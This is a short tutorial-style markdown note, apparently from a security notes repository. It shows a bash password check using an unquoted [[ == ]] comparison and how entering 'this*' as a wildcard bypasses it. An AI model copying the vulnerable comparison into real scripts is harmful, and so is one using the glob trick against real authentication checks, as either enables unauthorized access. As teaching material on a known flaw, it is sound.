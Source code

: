 ## Bash Escape / Exploit

### Summary
- Bash Comparison

### Bash Comparison
- **= or == :** for string comparisons
- **-eq :** for numeric comparisons.


**Vulnerable Code**
``` bash
DB_PASS="thisisdbpass"; => Just for example, its should be REDACTED
USER_PASS="i_dont_know_what_is_db_pass"

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```
The result of that will be "Failed" because DB_PASS and USER_PASS does not match!

**Exploit**
``` bash
DB_PASS="thisisdbpass"; => Just for example, its should be REDACTED
USER_PASS="this*" => asterisk character it acts as a wildcard and matches any part of the string.

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```